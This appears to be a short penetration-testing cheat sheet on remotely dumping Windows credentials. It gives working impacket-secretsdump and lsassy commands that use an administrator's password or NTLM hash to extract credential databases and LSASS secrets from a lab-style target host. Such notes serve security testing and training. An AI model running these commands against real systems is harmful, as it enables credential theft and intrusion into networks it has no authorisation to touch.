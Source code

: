 ## Remotely Dumping Creds

### Secretsdump
If we have an Administrator's credentials, we can use a few tools to remotely dump the targets credential databases.

```bash
impacket-secretsdump MATRIX/administrator@10.10.10.10 -hashes b519f77cba6fb8fcd764f7672e6a4a7:b519f77cba6fb8fcd764f7672e6a4a7
```

### LSASSy

 https://github.com/Hackndo/lsassy 

This can be similarly acheived with lsassy, which is another Python based tool which extracts remote credentials from lsass on a target, with valid credentials and permission levels.

```bash
lsassy matrix.local -u Neo -p P4ssw0rd 10.10.10.10
lsassy matrix.local -u Neo -H b519f77cba6fb8fcd764f7672e6a4a7 10.10.10.10
```
